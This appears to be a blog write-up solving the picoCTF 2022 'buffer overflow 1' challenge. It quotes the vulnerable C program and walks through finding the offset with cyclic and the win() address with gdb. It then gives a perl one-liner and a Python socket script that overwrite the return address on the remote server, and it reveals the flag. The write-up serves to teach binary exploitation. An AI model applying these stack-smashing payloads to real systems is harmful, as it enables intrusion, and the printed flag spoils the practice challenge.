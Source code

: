 ```yaml
---
layout: post
title: picoCTF 2022 - buffer overflow 1
date: "2023-05-01 01:49:42 +0100"
categories: [CTF-WRITEUPS, picoCTF - Binary exploitation]
tags: [c, pwn, binary exploitation, rev, gdb]
---
```


Hello friend,

In this post, we are going to solve a picoCTF [challenge](https://play.picoctf.org/practice/challenge/258?category=6&page=2)!

## Description

Control the return address

Now we're cooking! You can overflow the buffer and return to the flag function in the [program](https://artifacts.picoctf.net/c/186/vuln).
You can view source [here](https://artifacts.picoctf.net/c/186/vuln.c). And connect with it using nc saturn.picoctf.net <span style="color : red">[PORT]</span>

## Solution

<span style="color : red">vuln.c</span>

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>
#include "asm.h"

#define BUFSIZE 32
#define FLAGSIZE 64

void win() {
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("%s %s", "Please create 'flag.txt' in this directory with your",
                    "own debugging flag.\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f);
  printf(buf);
}

void vuln(){
  char buf[BUFSIZE];
  gets(buf);

  printf("Okay, time to return... Fingers Crossed... Jumping to 0x%x\n", get_return_address());
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);

  gid_t gid = getegid();
  setresgid(gid, gid, gid);

  puts("Please enter your string: ");
  vuln();
  return 0;
}
```

The first thing that catches attention is `gets()`.

According to the official documentation :

_**Never use this function.**_

_`gets()` reads a line from stdin into the buffer pointed to by s until either a terminating newline or EOF,
which it replaces with a null byte ('\0'). No check for buffer overrun is performed (see BUGS below)._

Basically, we declared a buffer that holds 32 bytes.

If we somehow read enough bytes to overwrite the return address, we can jump to our win function.

The return address is the address that the program will jump to once it finishes with the current stack frame.It will basically pop the return address and sets that address in the intruction pointer.

The instrution pointer will then jump to that address, and whatever is stored there will be executed by the CPU.

<img src="/../assets/picoCTF_bufferoverflow1.png" />

Now we need to determine two things :

- the offset : how many bytes we need so we can reach the return address
- the address of the win function

### Determining the offset

There are plenty of ways to achieve that, but let's try something easy.

We already know that we need more than 32 bytes to smash the stack, let's feed the program 50 bytes.

I'm going to use `cyclic`, which generates a sequence of characters respecting a pattern, this way we can easily determine the offset.

```bash
┌──(yariss㉿Kali-VM)-[~/boxes/picoCTF/buffer_overflow1]
└─$ cyclic 50
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaama
```

```bash
┌──(yariss㉿Kali-VM)-[~/boxes/picoCTF/buffer_overflow1]
└─$ cyclic 50 | ./vuln
Please enter your string:
Okay, time to return... Fingers Crossed... Jumping to 0x6161616c
zsh: done                cyclic 50 |
zsh: segmentation fault  ./vuln
```

We successfully smashed the stack, the return address is now `0x6161616c` which is the equivalent of `laaa`

You can calculate how many characters until we reach `laaa`, or you can use `cyclic -l` with the hexadecimal value of those characters.

```bash
┌──(yariss㉿Kali-VM)-[~/boxes/picoCTF/buffer_overflow1]
└─$ cyclic -l laaa
44
┌──(yariss㉿Kali-VM)-[~/boxes/picoCTF/buffer_overflow1]
└─$ cyclic -l 0x6161616c
44
```

> Offset = 44

### The win function

```bash
└─$ checksec --file vuln
[*] '/home/yariss/boxes/picoCTF/buffer_overflow1/vuln'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x8048000)
    RWX:      Has RWX segments
```

We can use gdb and print the address of `win`, since the binary doesn't have PIE enabled.

> Note : Since PIE is disabled, each time we run the binary, its going to load in the same memory region, meaning the addresses would be the same each time.

```bash
┌──(yariss㉿Kali-VM)-[~/boxes/picoCTF/buffer_overflow1]
└─$ gdb ./vuln
gef➤  p win
$1 = {<text variable, no debug info>} 0x80491f6 <win>
```

We got it : `0x80491f6`

## Crafting our script

Knowing the offset and the return address, we just need to feed the input to our program.

<img src="/../assets/picoCTF_bufferoverflow1_smashed.png" />

Here is a one liner script i wrote with `perl`

```bash
perl -e 'print "A" x 44 . "\xf6\x91\x04\x08" . "\n"  '
```

> Note : Notice the return address is in reverse, due to the endienness (the program is in little endian byte order)

```bash
┌──(yariss㉿Kali-VM)-[~/boxes/picoCTF/buffer_overflow1]
└─$ readelf -all vuln | grep endian
  Data:                              2's complement, little endian

```

Now all we need to do is to pipe it with the program stored in the picoCTF server

```bash
┌──(yariss㉿Kali-VM)-[~/boxes/picoCTF/buffer_overflow1]
└─$ perl -e 'print "A" x 44 . "\xf6\x91\x04\x08" . "\n"  '| nc saturn.picoctf.net 54239
Please enter your string:
Okay, time to return... Fingers Crossed... Jumping to 0x80491f6
picoCTF{addr3ss3s_ar3_3asy_9cf083f8}
```

We got it!

Before we finish, here is a second script I wrote using python sockets, which achieves the same results.

```python
#!/bin/python3
import socket

RET = b"\xf6\x91\x04\x08"
OFFSET = b"A" * 44
payload = OFFSET + RET + b"\n"

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
HOST = 'saturn.picoctf.net'
PORT = 54239

s.connect((HOST,PORT))
data = s.recv(1024)
s.sendall(payload)
while data:
    data = s.recv(1024)
    print(data.decode())

```

```bash
┌──(yariss㉿Kali-VM)-[~/boxes/picoCTF/buffer_overflow1]
└─$ python solver.py
Okay, time to return... Fingers Crossed... Jumping to 0x80491f6

picoCTF{addr3ss3s_ar3_3asy_9cf083f8}
```

That is it, I hope you learned something !
